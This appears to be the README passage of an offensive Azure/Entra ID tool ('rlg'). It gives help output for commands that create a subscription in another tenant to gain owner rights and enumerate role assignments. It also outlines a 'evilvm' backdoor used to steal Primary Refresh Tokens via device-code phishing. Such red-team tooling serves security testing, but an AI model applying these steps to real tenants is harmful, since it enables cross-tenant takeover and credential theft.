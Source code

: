First we exploit we can invite user's into tenant...

```
rlg invite --help
usage: rlg invite [-h] [auth options...] -e EMAIL

options:
  -h, --help            show this help message and exit
  -e, --email EMAIL     Invitee's email

```

### `sub create`

Now, as the attacker BILLING ADMIN in their HOME tenant, we create a subscription in the RESOURCE tenant. After this we will be a subscription owner in the RESOURCE TENANT...

```
rlg sub create --help
usage: rlg sub create [-h] [auth options...] [--sub-name SUB_NAME] [--sub-id SUB_ID]

options:
  -h, --help            show this help message and exit
  --sub-name SUB_NAME   New subscription name
  --tenant-id TENANT_ID Tenant ID that subscription will be created inside of


```

### `sub iam`

To gain the principal id, principal type and sometimes expanded details of principals in the directory, we can use enumerate them from the subscription RBAC role assignments...

```
rlg sub iam --help
usage: rlg sub iam [-h] [auth options...] --subscription-id SUBSCRIPTION_ID --tenant-id TENANT_ID [--json]

options:
  -h, --help            show this help message and exit
  --subscription-id SUBSCRIPTION_ID  Subscription ID to list IAM assignments from
  --tenant-id TENANT_ID         Tenant ID to list IAM assignments from
  --json                Output ARM and Graph API results as JSON

```

### `sub evilvm`


Gaining local admin to a device identity backdoor, opens up possible downstream PRT theft techniques...

1. Device code phish of specific refresh token, upgrade with device identity to gain PRT
2. Or, phish user to login to EVIL VM (using their Entra ID creds), we can steal the PRT issued to it upon login
